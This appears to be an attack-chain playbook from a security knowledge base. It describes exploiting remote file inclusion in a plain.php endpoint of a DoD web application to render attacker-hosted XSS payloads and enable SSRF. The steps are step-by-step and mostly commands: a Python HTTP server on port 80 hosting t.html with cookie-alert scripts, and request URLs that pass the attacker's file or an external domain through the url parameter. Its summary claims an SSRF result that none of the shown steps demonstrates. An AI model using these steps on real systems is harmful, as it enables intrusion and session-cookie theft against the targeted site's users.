

# Remote File Inclusion Leading to XSS and SSRF via plain.php Endpoint

Multi-stage attack chain demonstrating a complete attack workflow exploiting RFI in the plain.php endpoint of a DoD web application to include external malicious content, execute XSS payloads, and enable SSRF for internal scanning.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Python-SimpleHTTPServer]]

### Target Environment

- Web platform with PHP backend
- Accessible plain.php endpoint
- Network access to target server

### Initial Access Requirements

- No credentials required (public-facing)
- Attacker-controlled server for hosting
- Internet connectivity for external inclusion

## Detailed Attack Procedures

### Step 1: Host Malicious Content
procedure: [[procedures/Host-Malicious-HTML-for-RFI-Exploitation]]

**Objective**: Set up an attacker-controlled server to host a malicious HTML file containing XSS payloads for later inclusion via RFI.

**Instructions**: Create a file named t.html with XSS content like `<script>alert(document.cookie)</script>` and `<script>alert('jutsuce')</script>`. Then start the server using [[commands/start-simple-http-server]]:

```bash
python -m SimpleHTTPServer 80
```

**Expected Output**: HTTP server running on port 80, serving files from the current directory, accessible at http://attacker-ip/t.html.

**Success Indicators**:
- Server logs show requests to t.html
- Malicious page loads in browser with alerts

### Step 2: Include via RFI
procedure: [[procedures/Include-External-Malicious-Content-via-RFI]]

**Objective**: Exploit the RFI vulnerability in plain.php to fetch and render the malicious external content, executing XSS in the target's context.

**Instructions**: Access the plain.php endpoint with the url parameter set to the attacker's malicious file, plus additional parameters: `http://target/plain.php?url=http://attacker-ip/t.html&operation=GetParameterInfo&parameter=countryBoundaryLayer&outputFormat=JSON`. The server will fetch and render the content.

**Expected Output**: Target page renders the malicious HTML, triggering XSS alerts like cookie theft or 'jutsuce' message.

**Success Indicators**:
- XSS payload executes on target page
- Cookies or alerts visible in browser

### Step 3: Execute XSS and Validate
procedure: [[procedures/Validate-RFI-Exploitation-with-Domain-Names]]

**Objective**: Confirm persistent exploitation using domain-based URLs after potential IP blocking, demonstrating ongoing RFI and XSS risks.

**Instructions**: Test with a domain like http://justifysecurity.com/ via the same endpoint: `http://target/plain.php?url=http://justifysecurity.com/&operation=GetParameterInfo&parameter=countryBoundaryLayer&outputFormat=JSON`. Observe if external content is still fetched and rendered.

**Expected Output**: External domain content included and executed, showing alerts or malicious behavior.

**Success Indicators**:
- Domain-based inclusion succeeds
- No IP restrictions block domain exploitation

## Attack Chain Summary

### Key Achievements

1. Successful RFI to include arbitrary external content
2. Execution of XSS for session hijacking potential
3. Demonstration of SSRF for internal scanning via pseudo-internal URLs

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
